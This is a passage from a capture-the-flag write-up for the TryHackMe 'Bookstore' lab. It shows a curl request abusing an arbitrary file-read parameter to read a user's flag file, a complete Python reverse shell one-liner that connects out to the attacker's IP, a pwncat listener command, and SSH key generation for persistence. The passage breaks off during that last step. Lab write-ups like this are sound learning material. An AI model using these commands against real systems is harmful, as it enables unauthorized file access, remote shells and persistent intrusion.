 ___

## User Flag

Pulling the user flag with the arbitrary read vulnerability.

```bash
┌──(viorage㉿kali)-[~]
└─$ curl -s http://10.10.111.74:5000/api/v1/resources/books?show=/home/sid/user.txt     
4ea65eb80---snip---ddf7b964ab
```

___

## Console Reverse shell

Logging in to discover /console is an interactive python shell
![[Pasted image 20220413090703.png]]


https://www.revshells.com/ makes it easy to grab a python reverse shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.18.86",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

Starting an unbreakable pwncat listener

```bash
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Reverse shell is granted

![[Pasted image 20220413091734.png]]

___

## Persistence 
Making an ssh key for Sid and setting up persistence

```bash
┌──(viorage㉿kali)-[~/Tryhackme/Bookstore]
└─$ ssh-keygen -f sid                                                                                                                                                                           1 ⨯
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sid
Your public key has been saved in sid.pub
The key fingerprint is:
SHA256:p4PrpS8pw3BLwA32Ns2F/BGqu2bFpjYK7vSbssBsIGw viorage@kali
The key's randomart image is:
+---[RSA 3072]----+
|     . ...       |
|  o   o.o        |
| o + o.o .       |
|. o =.o .        |
|oE o.o  S .      |
|* . o.+. o       |
|o= =.=..+        |
|=o. %.o+ .       |
|.++Oo=+o.        |
+----[SHA256]-----+
```
